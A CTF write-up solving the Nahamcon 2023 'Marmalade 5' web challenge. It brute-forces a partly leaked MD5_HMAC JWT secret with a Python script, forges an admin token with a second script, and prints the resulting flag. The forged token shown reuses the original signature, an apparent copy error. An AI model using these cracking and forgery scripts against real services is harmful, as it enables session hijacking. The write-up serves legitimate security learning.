 ```yaml
---
CTF: Nahamcon 2023
Challenge Name: Marmalade 5
Category: Web
Date: 15/06/23
Author: congon4tor
Points: 322
Solves: 191
---
```

[![Nahamcon CTF 2023: Marmalade 5 (Web)](https://img.youtube.com/vi/3LRZsnSyDrQ/0.jpg)](https://www.youtube.com/watch?v=3LRZsnSyDrQ "Nahamcon CTF 2023: Marmalade 5 (Web)")

### Description
>Enjoy some of our delicious home made marmalade!

## Recon
Can't register as `admin`.
```bash
Login as the admin has been disabled 
```

Register as `cat` and it says only `admin` can get flag!

Check the [JWT](https://youtu.be/GIq3naOLrTg) in session cookies. 
```json
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w
```

Decode it with [jwt.io](https://jwt.io)
```json
{
  "alg": "MD5_HMAC"
}
{
  "username": "cat"
}
```

## First attempts
Tried `null` and `none` algorithm attacks with `jwt_tool`.
```bash
jwt_tool eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w -X a -pc username -pv admin
```

When trying to use the tokens, get an error.
```bash
Invalid algorithm, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****
```

So we know the first 11 characters of the key `fsrwjcfszeg`, let's try to brute force the last 5.

Tried `jwt_tool` but it doesn't work with the `MD5_HMAC` algorithm.
```bash
jwt_tool eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w -C -p fsrwjcfszeg*****

Algorithm is not HMAC-SHA - cannot test with this tool.
```

Same goes for `hashcat`.
```bash
hashcat -a 3 -m 16500 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w' fsrwjcfszeg?l?l?l?l?l

Hash 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w': Token length exception
No hashes loaded.
```

## Solve script #1 (brute-force)
Let's (me and chatGPT) make a custom script to crack the signature. 
```python
import jwt
import hashlib
import hmac
import base64

jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w"

def verify_jwt(jwt_token, key):
    # Split the JWT into header, payload, and signature
    header, payload, signature = jwt_token.split('.')

    # Recreate the signing input by concatenating the header and payload with a dot
    signing_input = header + '.' + payload

    # Convert the signing input and key to bytes
    signing_input_bytes = signing_input.encode('utf-8')
    key_bytes = key.encode('utf-8')

    # Create an HMAC-MD5 hash object
    hash_obj = hmac.new(key_bytes, signing_input_bytes, hashlib.md5)

    # Get the HMAC-MD5 signature
    calculated_signature = hash_obj.hexdigest()

    # Decode the Base64-encoded signature from the JWT
    decoded_signature = base64.urlsafe_b64decode(signature + "==")

    # Compare the decoded signature with the calculated signature
    if decoded_signature == bytes.fromhex(calculated_signature):
        print("Key:", key)
        exit(0)

# Define the character set and key length
charset = "abcdefghijklmnopqrstuvwxyz"
key_length = 5

# Loop through different keys
for i in range(len(charset) ** key_length):
    key = ""
    for j in range(key_length):
        key = charset[i % len(charset)] + key
        i //= len(charset)

    verify_jwt(jwt_token, 'fsrwjcfszeg' + key)
```

Got the key!
```bash
Key: fsrwjcfszegvsyfa
```

## Solve script #2 (forge token)
Now another custom script to forge a token with user `admin`.
```python
import jwt
import hashlib
import hmac
import base64

jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w"
key = "fsrwjcfszegvsyfa"

# Split the JWT into header, payload, and signature
header, payload, signature = jwt_token.split('.')

# Decode the payload from the token
decoded_payload = base64.urlsafe_b64decode(payload + "==").decode('utf-8')

# Modify the payload
modified_payload = decoded_payload.replace('"username":"cat"', '"username":"admin"')

# Encode the modified payload
encoded_payload = base64.urlsafe_b64encode(modified_payload.encode('utf-8')).decode('utf-8').rstrip('=')

# Recreate the signing input by concatenating the header and modified payload with a dot
signing_input = header + '.' + encoded_payload

# Convert the signing input and key to bytes
signing_input_bytes = signing_input.encode('utf-8')
key_bytes = key.encode('utf-8')

# Create an HMAC-MD5 hash object
hash_obj = hmac.new(key_bytes, signing_input_bytes, hashlib.md5)

# Get the HMAC-MD5 signature
calculated_signature = hash_obj.digest()

# Encode the calculated signature using base64
encoded_signature = base64.urlsafe_b64encode(calculated_signature).rstrip(b'=').decode('utf-8')

# Replace the characters '+' and '/' in the encoded signature with '-' and '_'
encoded_signature = encoded_signature.replace('+', '-').replace('/', '_')

# Create the modified JWT by concatenating the modified header, encoded payload, and encoded signature
modified_jwt = header + '.' + encoded_payload + '.' + encoded_signature

print("Modified Token:", modified_jwt)
```

Receive a new token, signed with `MD5_HMAC` using the secret key `fsrwjcfszegvsyfa`.
```bash
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.C3Z8QcoVXXFa-LAzFZbZ1w
```

We replace the cookie and receive a flag!
```txt
flag{a249dff54655158c25ddd3584e295c3b}
```